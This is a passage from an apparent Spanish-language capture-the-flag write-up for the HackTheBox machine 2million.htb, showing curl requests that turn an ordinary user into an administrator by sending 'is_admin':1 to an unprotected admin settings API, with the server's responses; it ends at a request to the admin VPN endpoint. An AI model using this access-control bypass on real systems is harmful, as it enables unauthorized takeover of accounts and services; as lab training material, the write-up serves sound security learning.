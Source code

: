 ```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{"email":"test@test.com"}' | jq
```

Info:

```
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Veremos que ahora nos falta el parametro `is_admin`, por lo que haremos esto:

```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{"email":"test@test.com", "is_admin":true}' | jq
```

Info:

```
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Nos pone que tiene que ser `1` o `0`, por lo que elegiremos `1` para que sea admin nuestro usuario.

```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{"email":"test@test.com", "is_admin":1}' | jq
```

Info:

```
{
  "id": 16,
  "username": "diseo",
  "is_admin": 1
}
```

Vemos que ha funcionado, por lo que ya seremos `admin` con dicho usuario, ahora si entramos al panel con dicho usuario de nuevo veremos lo de siempre, vamos a probar a generar la `vpn` desde nuestra terminal.

```shell
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" | jq
```
